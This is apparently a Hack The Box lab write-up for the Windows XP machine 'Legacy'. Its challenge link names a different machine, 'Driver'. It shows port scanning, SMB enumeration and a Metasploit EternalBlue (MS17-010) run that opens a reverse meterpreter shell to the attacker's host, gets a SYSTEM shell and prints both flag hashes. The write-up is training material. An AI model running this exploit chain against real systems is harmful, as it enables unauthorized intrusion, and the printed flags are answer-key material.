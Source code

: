 ```yaml
---
layout: post
title: Hack The Box - Legacy
categories:
  - hackthebox
slug: hack-box-legacy
tags:
  - cve
  - windows
  - smb
  - eternalblue
---
```

## Challenge description

[https://app.hackthebox.com/machines/Driver](https://app.hackthebox.com/machines/Driver)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC -Pn
[...]
PORT    STATE SERVICE      REASON  VERSION
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 23309/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 25473/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d01h12m40s, deviation: 1h24m51s, median: 5d00h12m40s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:59:18 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 59 18 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-01-23T08:29:53+02:00
```

### SMB Enumeration

$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $ip -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-18 04:20 UTC
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.019s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   note: ERROR: Enumerating shares failed, guessing at common ones (NT_STATUS_ACCESS_DENIED)
|   account_used: <blank>
|   \\10.10.10.4\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.4\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.4\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: READ


## Exploitation && Foothold && Pwn

So we only have one exposed service: SMB and we know the OS version is Windows XP. Let's try to use Eternal Blue exploit :

```
$ msfconsole
msf6 > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x820c07c0
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... RHVehnfb.exe
[*] 10.10.10.4:445 - Created \RHVehnfb.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \RHVehnfb.exe...
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.4:1035 ) at 2022-01-18 04:22:50 +0000
```

And voila, we have a system shell on the target. Let's get those flags :

```
meterpreter > shell
Process 1424 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>more "c:\documents and settings\john\desktop\user.txt"
more "c:\documents and settings\john\desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f

C:\WINDOWS\system32>more "c:\documents and settings\administrator\desktop\root.txt"
more "c:\documents and settings\administrator\desktop\root.txt"
993442d258b0e0ec917cae9e695d5713
```

Thanks for reading <3

h3x
